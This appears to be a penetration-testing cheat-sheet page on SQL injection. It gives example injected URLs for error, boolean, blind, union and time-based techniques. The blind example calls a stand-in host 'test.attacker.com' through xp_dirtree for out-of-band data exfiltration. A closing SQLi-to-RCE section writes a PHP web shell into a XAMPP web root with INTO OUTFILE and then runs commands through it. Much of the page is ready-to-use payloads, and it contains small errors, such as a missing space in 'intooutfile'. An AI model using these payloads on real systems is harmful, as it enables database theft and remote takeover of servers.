# SQLi

{% hint style="info" %}
SQL Injection (SQLi) is a type of an **injection attack** that makes it possible to execute malicious SQL statements. These statements control a database server behind a web application. Attackers can use SQL Injection vulnerabilities to bypass application security measures.
{% endhint %}

## Payloads

{% embed url="https://github.com/payloadbox/sql-injection-payload-list" %}
Payload list
{% endembed %}

## Types

### Error based

Forcing the database to perform some operation in which the result will be an **error**. Then try to extract some data from the database and show it in the error message.&#x20;

#### Example

```
https://www.example.beaglesecurity.com/gallery.php?id=6'
```

### Boolean based

Relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a **TRUE** or **FALSE** result.&#x20;

#### Example&#x20;

```
https://www.example.beaglesecurity.com/gallery.php?id=6' AND 1=1 --+
```

### Blind based

Sending **payloads**, observing the web application’s response and the resulting behavior of the database server. **Check payloads**.

#### Example &#x20;

```
https://example.com/products.aspx?id=1;EXEC master..xp_dirtree '\\test.attacker.com\' --
```

### Union based&#x20;

UNION-based attacks allow the tester to easily **extract information from the database**. Because the UNION operator can only be used if both queries have the exact same structure, the attacker must craft a SELECT statement similar to the original query.

#### Example

```
https://example.com/products.aspx?id=1' UNION SELECT passwords from users;
```

### Time based

Forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is **TRUE** or **FALSE**.&#x20;

#### Example&#x20;

```
https://example.com/products.aspx?id=1' and if(substring(user(),2,1)='a',SLEEP(5),1)--
```

## SQLi to RCE

### Using XAMP

{% embed url="https://kayran.io/blog/web-vulnerabilities/sqli-to-rce" %}

#### Payload

```php
# Inject cmd parameter
' union select 1,<php_payload>,3,4 into outfile <path> --
' union select 1,'<?php system($_GET["cmd"]); ?>',3,4 intooutfile 'C:\\xampp\\htdocs\\rce.php' --

# Reverse Shell created. Access from outside :
<host>/rce.php?cmd=<command>

# Test :
127.0.0.1/rce.php?cmd=time
# Result : The current time is: 16:22:25.20 Enter the new time: 3 4
```

